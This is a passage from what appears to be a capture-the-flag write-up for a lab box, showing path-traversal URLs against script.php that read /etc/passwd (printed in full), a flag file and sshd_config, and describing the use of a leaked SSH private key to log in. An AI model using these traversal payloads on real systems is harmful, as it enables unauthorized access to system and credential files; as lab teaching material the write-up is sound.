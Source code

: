 After checking a hint, it seems that path traversal is possible so I typed

`http://dev.team.thm/script.php?page=../../../../../etc/passwd`

and fortunately it showed me content of `/etc/password`

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
dale:x:1000:1000:anon,,,:/home/dale:/bin/bash
gyles:x:1001:1001::/home/gyles:/bin/bash
ftpuser:x:1002:1002::/home/ftpuser:/bin/sh
ftp:x:110:116:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
```

After getting this I tried running many filters as well as reading /etc/shadow or apache logs but nothing worked out.

However, when I thought about viewing `user.txt` it worked:

`http://dev.team.thm/script.php?page=../../../../../home/dale/user.txt`

Additionally, I found out it's possible to view`etc/ssh/sshd_config`

`view-source:http://dev.team.thm/script.php?page=../../../../../etc/ssh/sshd_config`

and author of a box left `dale`s private key so I download it to my machine and login to machine

<br />
